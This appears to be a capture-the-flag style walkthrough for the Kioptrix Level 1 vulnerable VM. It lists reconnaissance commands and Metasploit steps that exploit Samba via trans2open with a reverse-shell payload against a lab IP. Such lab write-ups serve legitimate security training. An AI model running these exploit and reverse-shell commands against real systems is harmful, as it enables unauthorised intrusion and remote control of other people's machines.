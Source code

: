 # Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  >>sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
The following commands can be used to launch Metasploit.
execute ```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.

```bash
search samba version command to search exploit
```
Use ```bash 
exploit/linux/samba/trans2open
```

```bash
Options
```   We can use options command to see the options.

Use:-
msf exploit(linux/samba/trans2open) > ```bash
set RHOST <target Ip(10.0.2.5)>
```
msf exploit(linux/samba/trans2open) > ```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > ```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > ```bash 
exploit
```






